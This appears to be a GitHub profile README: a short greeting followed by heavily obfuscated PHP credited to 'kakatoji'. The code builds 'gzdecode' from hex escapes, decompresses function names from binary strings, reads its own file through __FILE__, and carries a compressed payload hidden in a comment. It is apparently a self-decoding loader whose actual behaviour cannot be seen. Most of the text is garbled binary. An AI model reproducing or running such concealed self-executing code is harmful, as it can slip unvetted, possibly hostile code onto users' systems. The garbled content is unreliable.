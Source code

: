### Hi there 👋


<?php /*obf by kakatoji, please dont be edit*/define("���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ", "\x67\x7a\x64\x65\x63\x6f\x64\x65");$��鬻�ͺ�Ჳ�ҫ�㧹�����ӯ󲿹������׽�����鯳����������������Ͳ�޵�Ģ�����������������ޫ������ѷ�����=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'K�JIM�OI' . "\0" . '[��c' . "\0" . '' . "\0" . '' . "\0" . '');$�������ϩϰ�Ǿ���ɯ���ڢ�Ը��꡿�޾ƪ�����������ҵ�������С��ɣ��������������������߼���׮�֭��߽Ũ�ٳ��=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'K�JIM�OI' . "\0" . '[��c' . "\0" . '' . "\0" . '' . "\0" . '');$�������������̺���ķ������ȟ�˳������̤����ۻ�����Ž�����������������ή�����ڹ��䷰�������֧�����׿���=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '�H�0J��' . "\0" . '�[�' . "\0" . '' . "\0" . '' . "\0" . '');$������Φ�����鯪����������«��������󻧡��������̽�ˮ���������ћ���ޠз�������������޲�������ѷ����������=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+.M*.)' . "\0" . '�?' . "\0" . '' . "\0" . '' . "\0" . '');$�����������ܠ��Ϩ����٣�������̹��˟�������ᶧ��ׯ�ѽ䟞��������ٿ�ǻ��ŷ��䷿��۶�������𯫦�����ף����=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'K�(' . "\0" . '�]��' . "\0" . '' . "\0" . '' . "\0" . '');$Ш��ɠ��Ʃ���ͭ߳��യ����ග�����ɯ�����������찝���ڼ���Ӿ�������������ػ�Ͱ�������岟Фϵ������������ۻ=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'K��I�OO-�O��+I�+)' . "\0" . 'C��&' . "\0" . '' . "\0" . '' . "\0" . '');$���������Ҫ������Э���ø�����˹�������������ţ�ۮ±����ھ��������Ǣ������ܤ���ɠ�����������ѳ�����ը������=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'K��I�O��,.)' . "\0" . '@�
' . "\0" . '' . "\0" . '' . "\0" . '');$�������˪�����������Κ�ۧ��ᢨ����������ͭ�Ů�������ٵ����������������ΩǶ�׺��񞰿���̳�ȼ��ԝ�ڳ���Ѣ�ĝ��=__FILE__;/*  	!i����n�9��F~4��h�IX�F�5��Tj�Y��F�6���l�iX�F�7���n�y��F�8������������������������������������������������������������������������������������������������������)yK�^R򗔼��/)yNS��9NS��9NS�>P�C��>P�C��>P�[��V򷕼��o+y[��T�S�O�>T�S�O�>T�S�/��R�K�/��R�K�/��V�[�o��V�[�o��V�[��~Q�G��~Q�G��~U�W�_�~U�W�_�~U�W�1��cN2�n1�^;�����S��^R򗔼��/)yK�^S��9NS��9NS����Fm�8ˍ�Ǎxϟ���>����F:����$4�(B�?����h\�DAm��5      �����ͦۛ����堪ƽ��������������ԭܮ������������ѷ�ſ�ʿ�ȫ��������쫦�����������¤���ީ����������ƩẮ���[H[2J[3J*/$��ϛ��������ʶ����������Ş��߸���󠜯�������������ɟ�ʟ���������Ŀ������ߩ���Կ��ԩ������������ص������������=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+(JM��M,I�' . "\0" . '' . "\0" . '3R-\\
' . "\0" . '' . "\0" . '' . "\0" . '');$��������Ĺ�����୛�ƛҩἴ��©�����ɝ��������ɢ���˼�±�������Ǩ����������Ԯ봢����̹�ͭ���ʭ�������巳��=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+J�K' . "\0" . 't��' . "\0" . '' . "\0" . '' . "\0" . '');$������۳���»�����䟚��֝�����ݽŢ�������������������Ż��������έտ����������������������纪���=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+.)�I�' . "\0" . '-]' . "\0" . '' . "\0" . '' . "\0" . '');$�������������ձ������ʫ���������е���Ȼ���έ����������Я壱�����ʯ��ߨ�ޯ�����ڨ�ź������ޭ��ؾ��û����=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '�*�ϋOIM�OI' . "\0" . '�~B�' . "\0" . '' . "\0" . '' . "\0" . '');$���袸���������ǲ�˭�˽Ӷ޸�����қΩ��������۲��ȴ��њ�����������㺲��������ع���ױ�ĝ�ɫ�����о��������=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+�����' . "\0" . '���' . "\0" . '' . "\0" . '' . "\0" . '');$������������خ�ڤ�Ҡӻ������賺��ٯۭ��򤫟�������������گ���զ���䫠�ҷ塶徥��������ᨳ����ҩ۝�㲫�����=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . 'K-*�/�/J-�/*��K' . "\0" . 'm!�' . "\0" . '' . "\0" . '' . "\0" . '');$������᩼Ӿ������尶�ޠ�ϲ�����Ӭխ�����Ź���Ȭ��ޜ����է���ݨ������ɜΧ�����˳��̢�������������짱����=(���������֥�Լ�ݺإ��������������Ǟ���ɱ����霹��ǿ����޳����������Ų���������������Դ���������Ʃ����ٺ)('�' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '+(JM�/.��,' . "\0" . '\'
��